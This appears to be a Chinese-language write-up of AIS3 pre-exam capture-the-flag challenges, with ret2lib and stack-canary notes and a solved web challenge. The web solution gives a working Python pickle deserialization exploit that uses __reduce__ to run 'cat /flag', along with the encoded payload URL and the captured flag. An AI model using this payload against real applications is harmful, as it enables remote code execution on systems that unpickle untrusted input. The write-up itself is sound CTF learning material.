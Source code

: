 ret2lib


https://stackoverflow.com/questions/10448254/how-to-use-gdb-with-ld-preload

注意環境變數 LD_PRELOAD 必須為絕對路徑

cp libc.so.6-cd7c1a035d24122798d97a47a10f6e2b71d58710aecfd392375f1aa9bdde164d /tmp/libc.so.6

LD_PRELOAD=/tmp/libc.so.6
set environment LD_PRELOAD /tmp/libc.so.6

好像這個部份不行，可能系統上有問題

直接用本機 libc 測試，地址輸出正常

透過劫持 __stack_chk_fail

參考
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary-zh/#canary_3

### Meeseeks box [未解開]

看起來很像 heap 噴濺

## pre-exam 題組 Web

### Snake

查看程式碼之後判斷可能為反序列相關的漏洞，判斷是否有辦法讓 data 同時符合 true 或 false，不過也可以用 `__reduce__` 去執行任意程式碼，而這個方法會在反序列化時執行。

直接編寫 shell 指令，讓他讀取 flag

``` python
import pickle, base64, traceback
import  subprocess
base64.b64encode(pickle.dumps({'test':12}))

class Test(object):
  def __reduce__(self):
       return (subprocess.check_output, (['cat', '/flag'],))

'https://snake.ais3.org/?data={}'.format(base64.b64encode(pickle.dumps(Test())).decode('utf-8'))
```

之後把產生的物件序列化之後傳入網頁

https://snake.ais3.org/?data=gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBS9mbGFnlGWFlFKULg==

得到 flag

``` plaintext
AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```

參考 

- [python安全之反序列化](https://r1dd1er.top/2019/05/21/python安全之反序列化/)
